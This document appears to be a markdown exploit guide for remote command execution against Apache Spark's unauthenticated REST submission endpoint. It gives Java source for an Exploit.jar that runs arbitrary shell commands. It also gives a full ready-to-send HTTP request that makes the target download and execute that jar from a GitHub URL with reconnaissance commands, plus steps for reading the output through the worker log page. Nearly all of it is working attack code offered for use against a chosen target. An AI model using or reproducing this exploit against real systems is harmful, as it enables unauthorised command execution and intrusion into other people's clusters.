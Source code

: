 ## Exploit.jar Source code:

```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```
PS：You can change the source code above and recompile it to use.
## How Exp to use?
First Post this Request by Brupsuite(Remember to change IP、port、spark.master to you target):
```
POST /v1/submissions/create HTTP/1.1
Host: 192.168.174.157:6066
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://192.168.174.157:6066/
Content-Type: application/json
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 684

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://192.168.174.157:6066"
  }
}
```
![image text](https://github.com/Al1ex/Heptagram/blob/master/Application/Apache%20Spark/exp.png)

Use Explorer to view `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout` to see the result:
![image text](https://github.com/Al1ex/Heptagram/blob/master/Application/Apache%20Spark/result.png)


